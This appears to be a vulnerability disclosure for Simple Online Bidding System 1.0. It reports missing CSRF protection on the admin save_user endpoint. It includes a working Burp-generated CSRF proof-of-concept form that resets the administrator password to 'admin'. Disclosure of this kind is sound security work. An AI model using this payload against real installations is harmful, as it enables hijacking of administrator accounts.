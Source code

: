 ## Affected version: 
Simple Online Bidding System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

## Vulnerability File:
/simple-online-bidding-system/admin/ajax.php?action=save_user

## Description:
Simple Online Bidding System  1.0 is vulnerable to /simple-online-bidding-system/admin/ajax.php?action=save_user unrestricted CSRF attack. The password change function does not have any Token restrictions. A malicious attacker could exploit this vulnerability to change the administrator password.

Status: CRITICAL

CSRF POC
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/simple-online-bidding-system/admin/ajax.php?action=save_user" method="POST">
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="name" value="Administrator" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="password" value="admin" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

If the user clicks on the attacker's page, the current password will be changed.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/3e9ceb49-558f-48a8-9015-af282fadcece)

The password has been changed to admin

